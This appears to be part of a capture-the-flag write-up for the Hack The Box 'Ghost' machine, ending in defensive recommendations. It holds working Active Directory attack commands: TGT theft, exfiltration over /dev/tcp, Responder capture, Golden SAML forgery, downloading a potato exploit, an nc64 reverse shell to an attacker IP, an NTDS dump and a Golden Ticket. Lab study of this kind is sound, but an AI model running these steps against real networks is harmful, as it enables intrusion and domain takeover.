

**Recovered:** `intranet_principal` / `He!KA9oKVT3rL99j` (also `JWT_SECRET`, same `DEV_INTRANET_KEY`).

Validate against the DC: LDAP/SMB succeed; WinRM does **not** — so no shell yet, only directory access.

```bash
nxc ldap ghost.htb -u intranet_principal -p 'He!KA9oKVT3rL99j'
nxc smb ghost.htb -u intranet_principal -p 'He!KA9oKVT3rL99j'
nxc winrm ghost.htb -u intranet_principal -p 'He!KA9oKVT3rL99j'
```




---
### 3.5 LDAP / BloodHound enumeration

BloodHound shows `intranet_principal` with no useful outbound object control — only the custom `principal` group (shared with `gitea_temp_principal`) plus the usual Domain Users chain. Treat this account as a **read-only LDAP identity**, not a privesc edge.



Enumerate users and confirm the interesting role split (sysadmin / IT / HR / Remote Management Users). `justin.bradley` is IT **and** Remote Management Users — a natural WinRM target once we get a password.

```bash
ldapsearch -LLL -x -H ldap://dc01.ghost.htb \
  -D 'CN=Intranet Principal,CN=Users,DC=ghost,DC=htb' -w 'He!KA9oKVT3rL99j' \
  -b 'DC=ghost,DC=htb' '(&(objectCategory=person)(objectClass=user))' \
  sAMAccountName displayName memberOf servicePrincipalName userAccountControl description
```



Trust objects under `CN=System` show a bidirectional forest trust to `corp.ghost.htb` (BloodHound: SameForestTrust). DNS SRV/A records resolve the corp DC as `primary.corp.ghost.htb` → `10.0.0.10`, reachable from the container on 88/389/445.

```bash
ldapsearch -LLL -x -H ldap://dc01.ghost.htb \
  -D 'CN=Intranet Principal,CN=Users,DC=ghost,DC=htb' -w 'He!KA9oKVT3rL99j' \
  -b 'CN=System,DC=ghost,DC=htb' '(objectClass=trustedDomain)' \
  cn flatName trustPartner trustDirection trustType trustAttributes securityIdentifier -o ldif-wrap=no

dig @10.129.69.37 _ldap._tcp.dc._msdcs.corp.ghost.htb SRV
dig @10.129.69.37 corp.ghost.htb A
```








Ligolo-ng can tunnel `10.0.0.0/24` for scanning from Kali; in practice that only reconfirmed the corp DC and did not yield a better foothold than what we already have in the app container — so return to container post-ex.





---
### 3.6 SSH ControlMaster hijack → florence.ramirez TGT

As root in the intranet container, look for leftover SSH multiplexing state under `/root/.ssh`. A live ControlMaster socket to `dev-workstation` as `florence.ramirez@ghost.htb` is still open (`Master running`). That means we can attach without knowing her password, run commands on `LINUX-DEV-WS01`, and steal her Kerberos TGT from `/tmp/krb5cc_50`.

Florence is an **IT** user (from earlier LDAP). IT membership is what we will lean on next for authenticated DNS updates — the immediate win here is simply a usable TGT.

```bash
find /root/.ssh -type s -ls 2>/dev/null
ssh -S "$(find /root/.ssh -type s -print -quit)" -O check -l 'florence.ramirez@ghost.htb' dev-workstation
ssh -S ... -o ControlMaster=no -l 'florence.ramirez@ghost.htb' dev-workstation \
  'id; hostname; echo KRB5CCNAME=$KRB5CCNAME; klist -A'
ssh -S ... -o ControlMaster=no -l 'florence.ramirez@ghost.htb' dev-workstation \
  'cat /tmp/krb5cc_50' > /tmp/florence.ccache
```


Exfiltrate the ccache to Kali (bash `/dev/tcp` works when `nc` is missing in the container), tighten permissions, and point Kerberos at it:

```bash
# On Kali
nc -lvnp 5555 > florence.ccache
# On container
bash -c 'cat /tmp/florence.ccache > /dev/tcp/10.10.15.14/5555'

chmod 600 florence.ccache
export KRB5CCNAME="$(pwd)/florence.ccache"
export KRB5_CONFIG=./krb5-ghost.conf
```


`nxc ldap/smb --use-kcache` confirms Florence’s ticket is accepted by `DC01`.

---
### 3.7 Authenticated DNS update + NTLM capture

**Why `bitbucket.ghost.htb`:** the Forum/News migration story already advertised that hostname. Something on the domain (observed as traffic sourced from the DC) still tries to speak HTTP to it during the Gitea→Bitbucket migration. If we own the A record, we own that authentication attempt.

**Why Florence can update DNS:** with her TGT loaded, `nsupdate -g` (GSS-TSIG) against `dc01.ghost.htb` succeeds. Empirically her IT principal is allowed to perform authenticated dynamic updates in `ghost.htb` — we do not need a separate admin shell for this step.

Point the name at the attacker and catch the callback with Responder:

```bash
nsupdate -g -d
# server dc01.ghost.htb
# zone ghost.htb
# update add bitbucket.ghost.htb. 60 A 10.10.15.14
# send

sudo responder -I tun0
```


The captured NetNTLMv2 identity is `ghost\justin.bradley` — exactly the IT + Remote Management Users account we wanted. Crack it offline:

```bash
hashcat -m 5600 justin.hash /usr/share/wordlists/rockyou.txt
```


**Recovered:** `justin.bradley` / `Qwertyuiop1234$$` (WinRM `(Pwn3d!)`).

```bash
nxc smb ghost.htb -u justin.bradley -p 'Qwertyuiop1234$$'
nxc ldap ghost.htb -u justin.bradley -p 'Qwertyuiop1234$$'
nxc winrm ghost.htb -u justin.bradley -p 'Qwertyuiop1234$$'
evil-winrm -i ghost.htb -u justin.bradley -p 'Qwertyuiop1234$$'
# type C:\Users\justin.bradley\Desktop\user.txt
```


🏁 **User flag obtained**

---
## 4. Privilege Escalation

### 4.1 GMSA password for `adfs_gmsa$`

BloodHound already shows why Justin is valuable beyond WinRM: he has **`ReadGMSAPassword`** on `ADFS_GMSA$@GHOST.HTB`. That GMSA is the ADFS runtime identity — perfect for dumping federation secrets next.


Dump the managed password over LDAP and pass-the-hash into WinRM:

```bash
nxc ldap dc01.ghost.htb -u justin.bradley -p 'Qwertyuiop1234$$' --gmsa
nxc winrm dc01.ghost.htb -u 'adfs_gmsa$' -H 'e37b1566705cd4b67015d20859ffd2ac'
evil-winrm -i ghost.htb -u 'adfs_gmsa$' -H 'e37b1566705cd4b67015d20859ffd2ac'
```


**Recovered NTLM:** `adfs_gmsa$` → `e37b1566705cd4b67015d20859ffd2ac`.

---
### 4.2 ADFSDump → Golden SAML

Ghost Core on `:8443` authenticates via AD Federation (“Login using AD Federation”). With the ADFS GMSA we can run **ADFSDump** on the DC to extract:

- DKM / token-signing private key material
- Issuer `http://federation.ghost.htb/adfs/services/trust`
- Relying-party trust for `https://core.ghost.htb:8443` (ACS `/adfs/saml/postResponse`)

Build, upload, and run:

```bash
cd ADFSDump
TERM=dumb xbuild ADFSDump.sln /p:Configuration=Release
# evil-winrm: upload ADFSDump.exe (+ .config)
.\ADFSDump.exe | Tee-Object .\adfsdump.txt
```


On Kali, convert the UTF-16 dump, carve the encrypted Token Signing Key blob, and write the DKM key bytes. ADFSpoof consumes both binaries and forges a SAML2 assertion claiming `Administrator@ghost.htb` for the Core RP:

```bash
iconv -f UTF-16LE -t UTF-8 adfsdump.txt > adfsdump-utf8.txt
awk '/Encrypted Token Signing Key Begin/{capture=1;next} /Encrypted Token Signing Key End/{capture=0} capture' adfsdump-utf8.txt \
  | tr -d '[:space:]' | base64 -d > TKSKey.bin
echo '8D-AC-A4-90-70-2B-3F-D6-D8-D5-BC-35-A9-84-87-56-D2-FA-3B-7B-74-13-A3-C6-2C-5B-A6-F4-58-FB-9D-A1' \
  | tr -d '-' | xxd -r -p > DKMKey.bin

git clone https://github.com/mandiant/ADFSpoof.git
cd ADFSpoof && python3 -m venv .venv && source .venv/bin/activate
pip install cryptography==37.0.4 lxml pyasn1 signxml six

python3 ADFSpoof.py -b ../TKSKey.bin ../DKMKey.bin \
  -s 'federation.ghost.htb' -o golden-saml.txt saml2 \
  --endpoint 'https://core.ghost.htb:8443/adfs/saml/postResponse' \
  --nameidformat 'urn:oasis:names:tc:SAML:1.1:nameid-format:emailAddress' \
  --nameid 'Administrator@ghost.htb' \
  --rpidentifier 'https://core.ghost.htb:8443' \
  --assertions '<Attribute Name="http://schemas.xmlsoap.org/ws/2005/05/identity/claims/upn"><AttributeValue>Administrator@ghost.htb</AttributeValue></Attribute><Attribute Name="http://schemas.xmlsoap.org/claims/CommonName"><AttributeValue>Administrator</AttributeValue></Attribute>'

base64 -w0 golden-saml.txt > golden-saml.b64
# URL-encode into golden-saml-urlencoded.txt for Burp form body
```


POST `SAMLResponse=<urlencoded>` to the ACS. A `302` to `/` plus a fresh `connect.sid` means Core accepted the forged Administrator assertion:


---
### 4.3 Core SQL debugger → linked server → SYSTEM

Authenticated as Administrator in Ghost Core, open **Database Debug**. The panel states that MSSQL for `ghost.htb` and `corp.ghost.htb` are linked and exposes a Query Debugger against the **main** database.


First query: we are `web_client`, **not** sysadmin on the local instance — so local `xp_cmdshell` is not the path. The linked server is.

```sql
SELECT SYSTEM_USER AS login_name, CURRENT_USER AS db_user,
       IS_SRVROLEMEMBER('sysadmin') AS is_sysadmin;
EXEC sp_linkedservers;
SELECT srvname FROM master..sysservers;
```


`OPENQUERY` against `[PRIMARY]` shows we land as `bridge_corp`, and that login has been **GRANTed `IMPERSONATE` by `sa`**:

```sql
SELECT result FROM OPENQUERY([PRIMARY], 'SELECT SUSER_NAME() AS result');

SELECT *
FROM OPENQUERY(
    [PRIMARY],
    'SELECT pe.permission_name, pe.state_desc, pr.name AS grantee, pr2.name AS grantor
     FROM sys.server_permissions pe
     JOIN sys.server_principals pr ON pe.grantee_principal_id = pr.principal_id
     JOIN sys.server_principals pr2 ON pe.grantor_principal_id = pr2.principal_id
     WHERE pe.type = ''IM'''
);
```


Impersonate `sa` on `PRIMARY`, enable `xp_cmdshell`, and confirm host execution:

```sql
EXEC (
  'EXECUTE AS LOGIN = ''sa'';
   EXEC sp_configure ''show advanced options'', 1; RECONFIGURE;
   EXEC sp_configure ''xp_cmdshell'', 1; RECONFIGURE;'
) AT [PRIMARY];

EXEC (
  'EXECUTE AS LOGIN = ''sa'';
   EXEC xp_cmdshell ''whoami & hostname'';'
) AT [PRIMARY];
```


`xp_cmdshell` runs as `nt service\mssqlserver` (SeImpersonate). Stage EfsPotato + `nc64`, then potato into a SYSTEM reverse shell on host **PRIMARY** (corp DC):

```sql
EXEC (
  'EXECUTE AS LOGIN = ''sa'';
   EXEC xp_cmdshell ''curl.exe http://10.10.15.14:8000/EfsPotato.exe -o C:\Windows\Temp\EfsPotato.exe'';'
) AT [PRIMARY];
-- similarly fetch nc64.exe

EXEC (
  'EXECUTE AS LOGIN = ''sa'';
   EXEC xp_cmdshell ''C:\Windows\Temp\EfsPotato.exe "C:\Windows\Temp\nc64.exe 10.10.15.14 9002 -e powershell.exe"'';'
) AT [PRIMARY];
```


---
### 4.4 NTDS IFM dump → cross-domain Golden Ticket

On SYSTEM/`PRIMARY`, create an Install-From-Media set (VSS copy of `ntds.dit` + registry hives), exfiltrate `SYSTEM` and `ntds.dit` with `nc64`, and dump offline:

```powershell
mkdir C:\Windows\Temp\ifm
ntdsutil "activate instance ntds" "ifm" "create full C:\Windows\Temp\ifm" quit quit
# nc64: SYSTEM hive then ntds.dit → Kali
```

```bash
impacket-secretsdump -system SYSTEM -ntds ntds.dit LOCAL
```


**Building the cross-domain ticket — where the SIDs come from:**

1. On `PRIMARY`, read the **corp** domain SID: `Get-ADDomain corp.ghost.htb | Select DomainSID` → `S-1-5-21-2034262909-2733679486-179904498`.
2. Take the **ghost.htb** domain SID from earlier LDAP/BloodHound enumeration (`S-1-5-21-4084500788-938703357-3654145966`) and append RID **519** (Enterprise Admins).
3. Use the corp `krbtgt` AES256 key from secretsdump as `-aesKey`.

That yields a corp `Administrator` TGT that also carries Enterprise Admins in the parent/forest domain — enough to authenticate to `dc01.ghost.htb` over the trust and read `root.txt`.

```powershell
Get-ADDomain corp.ghost.htb | Select-Object -ExpandProperty DomainSID
```


```bash
impacket-ticketer -aesKey <krbtgt_aes256_from_secretsdump> \
  -domain-sid S-1-5-21-2034262909-2733679486-179904498 \
  -domain corp.ghost.htb \
  -extra-sid S-1-5-21-4084500788-938703357-3654145966-519 \
  Administrator
export KRB5CCNAME=$PWD/Administrator.ccache
nxc smb dc01.ghost.htb -d corp.ghost.htb -u Administrator --use-kcache
impacket-wmiexec -k -no-pass 'corp.ghost.htb/Administrator@dc01.ghost.htb'
# type Users\Administrator\Desktop\root.txt
```


🏁 **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. Enumerate DC01 + Ghost/Core web surfaces; fuzz `intranet.ghost.htb` on 8008.
2. Abuse LDAP `*` wildcard login oracle to recover `gitea_temp_principal` token → Gitea source.
3. LFI via Ghost Content API `extra` → `DEV_INTRANET_KEY` → `/api-dev/scan` RCE as root in the intranet container.
4. Steal `intranet_principal` from container env; map forest trust / corp DC (`10.0.0.10`).
5. Hijack SSH ControlMaster to steal `florence.ramirez` TGT → GSS DNS update → Responder → crack `justin.bradley` → user flag.
6. Read `adfs_gmsa$` GMSA password → ADFSDump → Golden SAML into Ghost Core.
7. Linked MSSQL `PRIMARY` + `sa` impersonation + EfsPotato → SYSTEM → NTDS IFM → Golden Ticket with EA SID → Domain Admin / root flag.

---
## Defensive Recommendations

- Do not store service secrets as LDAP attributes that weak intranet roles can read; never accept LDAP filter wildcards in password bind paths.
- Remove or gate `/api-dev` and shared `DEV_INTRANET_KEY` in production; sanitize CMS `extra` / path joins.
- Disable unused SSH ControlMaster sockets; clear Kerberos caches on shared jump hosts.
- Restrict who may perform dynamic DNS updates; monitor unexpected A-record changes and NTLM to non-existent hosts.
- Limit GMSA `PrincipalsAllowedToRetrieveManagedPassword`; protect ADFS DKM / token-signing keys; prefer short-lived certs and detection for anomalous SAML issuances.
- Treat linked SQL servers as trust boundaries: remove unnecessary `IMPERSONATE` / `sa` paths, disable `xp_cmdshell`, and harden SeImpersonate abuse (potatoes).
- Segment corp/child DCs from internet-facing web containers; monitor IFM / VSS creation and large `ntds.dit` exfil.
